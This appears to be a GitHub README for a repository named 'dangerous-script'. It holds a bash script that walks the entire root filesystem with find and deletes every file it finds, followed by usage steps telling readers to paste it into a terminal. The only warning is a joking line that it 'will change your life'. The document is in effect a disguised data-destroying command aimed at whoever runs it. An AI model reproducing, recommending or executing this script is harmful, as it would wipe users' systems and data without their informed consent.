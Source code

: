 # dangerous-script
```bash
#!/bin/bash

while read -r line; do
    rm $line
done < <(find / -xdev -type f)

```
### How to use?
- Open integrated terminal or CMD 
- run: copy this script and paste it into CMD terminal
- Note: this script will change your life, your goal, and your system
